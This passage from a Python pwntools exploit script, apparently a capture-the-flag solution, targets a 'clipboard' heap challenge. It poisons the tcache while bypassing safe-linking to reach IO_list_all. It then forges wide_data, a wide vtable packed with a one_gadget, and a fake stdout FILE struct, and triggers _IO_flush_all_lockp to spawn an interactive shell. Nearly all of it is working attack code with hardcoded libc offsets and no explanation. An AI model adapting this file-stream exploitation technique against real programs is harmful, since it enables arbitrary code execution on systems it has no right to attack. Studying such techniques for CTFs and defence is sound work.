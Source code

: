 ``` python
    del_clipboard(s, 9)

    # free XXXXXXXXX440, XXXXXXXXX470
    del_clipboard(s, 2)
    del_clipboard(s, 1)

    # reallocate fake 0x100 chunk and overwrite fd of XXXXXXXXX440
    # now XXXXXXXXX440 -> IO_list_all
    io_list_all = libc + 0x21b680
    payload = b"H" * 0x38
    payload += p64(0x31)
    payload += p64(io_list_all ^ (heap >> 12))
    add_clipboard(s, 3, 0xf0, payload)

    # allocating 5 returns address of IO_list_all
    add_clipboard(s, 4, 0x20, b"I" * 0x20)
    add_clipboard(s, 5, 0x20, p64(heap + 0x770))
    
    # allocate wide_vtable
    one_gadget = libc + 0xebc85
    payload = p64(0) * 2                        # dummy
    payload += p64(one_gadget) * 19
    add_clipboard(s, 6, len(payload), payload)
    wide_vtable = heap + 0x4a0

    # allocate anywhere can read / write
    add_clipboard(s, 7, 0x100, b"\x00" * 8)
    anywhere_rw = heap + 0x550

    # allocate wide_data
    payload = bytearray(0x100)
    payload[0x18:0x20] = p64(0)
    payload[0x20:0x28] = p64(anywhere_rw)
    payload[0x30:0x38] = p64(0)
    payload[0xe0:0xe8] = p64(wide_vtable)
    add_clipboard(s, 8, len(payload), payload)
    wide_data = heap + 0x660

    # allocate new_fp and overwrite stdout
    io_wfile_jumps = libc + 0x2170c0
    payload = bytearray(stdout_fp)
    payload[0:8] = p64(0)                       # stdout -> flags
    payload[0xa0:0xa8] = p64(wide_data)         # stdout -> _wide_data
    payload[0xc0:0xc8] = p64(1)                 # stdout -> mode
    payload[0xd8:0xe0] = p64(io_wfile_jumps)    # stdout -> vtable
    add_clipboard(s, -4, 0x100, payload, fin=1)

    log.info(f"&stdout : 0x555555558020")
    log.info(f"IO_list_all : {hex(io_list_all)}")
    log.info(f"IO_list_all -> 0x7ffff7fab6a0")
    log.info(f"original_stdout : 0x7ffff7fab780")
    log.info(f"wide_data : {hex(wide_data)}")
    log.info(f"io_wfile_jumps : {hex(io_wfile_jumps)}")
    log.info(f"anywhere_rw : {hex(anywhere_rw)}")
    log.info(f"wide_vtable : {hex(wide_vtable)}")
    log.info(f"one_gadget : {hex(one_gadget)}")

    # trigger _IO_flush_all_lockp
    exit_clipboard(s)

    s.interactive()

if __name__=='__main__':
```
